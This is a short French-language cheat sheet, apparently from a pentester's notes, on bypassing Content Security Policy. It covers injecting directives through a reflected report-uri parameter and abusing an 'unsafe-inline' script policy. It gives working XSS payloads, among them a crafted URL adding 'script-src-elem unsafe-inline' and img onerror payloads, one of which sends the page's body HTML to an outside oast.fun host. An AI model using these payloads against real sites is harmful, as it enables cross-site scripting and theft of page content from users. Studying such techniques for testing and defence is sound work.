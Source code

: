 CSP est un mécanisme de sécurité pour navigateur visant à atténuer les attaques XSS et autres. Il fonctionne en limitant les ressources (telles que les scripts et les images) qu'une page peut charger et en limitant la possibilité pour une page d'être encadrée par d'autres pages.

Pour activer CSP, une réponse doit inclure un en-tête de réponse HTTP appelé `Content-Security-Policy`avec une valeur contenant la politique. La politique elle-même est composée d'une ou plusieurs directives, séparées par des points-virgules.

## Bypassing CSP with policy injection

Si un site reflète un paramètre dans la directive `report-uri` de sa politique CSP, un attaquant peut manipuler ce paramètre pour **injecter** ses propres directives CSP.

```js
// example
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=
```

**Méthode :**

1. L'attaquant contrôle un paramètre (ex : `?token=...`).
2. Il injecte un point-virgule (`;`) pour ajouter ses propres directives après celles déjà existantes.
3. Le `report-uri` est souvent la dernière directive, donc l'attaquant peut écraser les directives existantes

**Exploitation de la vulnérabilité :**

- Normalement, on ne peut pas écraser `script-src`, mais **Chrome a introduit `script-src-elem`**, qui permet de contrôler les **éléments `<script>`** (et non les événements).
    
- Cela permet à un attaquant de **contourner** la politique CSP, en injectant des scripts malveillants via des éléments `<script>`.

**Exploitation**

```js
script-src-elem *
script-src-elem 'unsafe-eval'
script-src-elem 'unsafe-inline'
```

```http
https://target.com/?search=<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'
```

> En gros, l'attaque consiste à manipuler `report-uri` pour **ajouter des directives CSP malveillantes** (comme autoriser des sources de scripts non sécurisées).

## CSP Bypass - Inline code

Si nous avons cette CSP peut import les autres presente

```sh
Content-Security-Policy: img-src 'self'; script-src 'unsafe-inline'; 
```

Nous pouvons utiliser cette charge utile

```html
<img src=x onerror=..badstuff..>
<img src=x onerror=alert(1)>
<img src=x onerror="window.top.location='//ojdszfqawmebkdibkqmm35pd59b2smw0k.oast.fun?flag='.concat(encodeURIComponent(document.body.innerHTML))">
```
